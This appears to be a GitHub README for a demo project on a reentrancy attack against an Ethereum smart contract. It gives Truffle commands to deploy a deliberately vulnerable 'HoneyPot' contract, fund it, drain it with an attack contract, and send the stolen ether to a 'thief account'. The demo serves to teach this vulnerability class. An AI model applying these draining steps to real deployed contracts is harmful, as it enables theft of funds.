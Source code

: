# honeyPotReentranceAttack
Example of vulnerable contract and an attack contract that would drain all money from vulnerable contract.

## Set up
`truffle compile`
`truffle migrate`
`truffle console`

## truffle console commands
Get Honey pot contract address

`HoneyPot.deployed().then(instance => honeyPotAddress = instance.address)`

Check its balance:

`web3.eth.getBalance(honeyPotAddress).toString(10)`

Send money to honey pot address from accounts[1]:

`HoneyPot.deployed().then(instance => instance.put({from: web3.eth.accounts[1], value: web3.toWei(5, "ether") }))`

Check again honeypot contract balance:

`web3.eth.getBalance(honeyPotAddress).toString(10)`

Get Attack contract address:

`HoneyPotCollect.deployed().then(instance => evilContractAddress = instance.address)`

Check its balance:

`web3.eth.getBalance(evilContractAddress).toString(10)`

Attack HoneyPot contract with evil contract:

`HoneyPotCollect.deployed().then(inst => inst.collect({ value: web3.toWei(5, "ether"), gas: 1000000 }))`

Transfer ether to the thief account:

`HoneyPotCollect.deployed().then(inst => inst.kill())`
